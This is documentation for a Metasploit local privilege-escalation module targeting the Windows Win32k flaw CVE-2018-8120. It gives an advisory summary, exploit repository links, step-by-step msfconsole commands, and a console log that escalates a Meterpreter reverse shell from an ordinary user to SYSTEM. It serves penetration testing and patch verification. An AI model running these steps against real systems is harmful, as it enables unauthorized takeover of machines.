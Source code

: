 ## Overview

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

To exploit this vulnerability, an attacker would first have to log on to the system. An attacker could then run a specially crafted application that could exploit the vulnerability and take control of an affected system.

The update addresses this vulnerability by correcting how Win32k handles objects in memory.

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8120
* http://bigric3.blogspot.com/2018/05/cve-2018-8120-analysis-and-exploit.html
* https://github.com/bigric3/cve-2018-8120
* https://github.com/unamer/CVE-2018-8120

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/windows/local/ms18_8120_win32k_privesc`
4. `set SESSION [SESSION]`
5. `set LHOST [LHOST]`
6. `exploit`

## Usage

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[*] Sending stage (206403 bytes) to 192.168.1.103
[*] Meterpreter session 1 opened (192.168.1.102:4444 -> 192.168.1.103:56748) at 2018-10-10 21:55:52 +0530

meterpreter > getuid 
Server username: zero-PC\zero
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/ms18_8120_win32k_privesc 
msf exploit(windows/local/ms18_8120_win32k_privesc) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms18_8120_win32k_privesc) > set LHOST 192.168.1.102
LHOST => 192.168.1.102
msf exploit(windows/local/ms18_8120_win32k_privesc) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[+] Exploiting SetImeInfoEx Win32k NULL Pointer Dereference
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.102:4444 -> 192.168.1.103:56749) at 2018-10-10 21:56:35 +0530

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
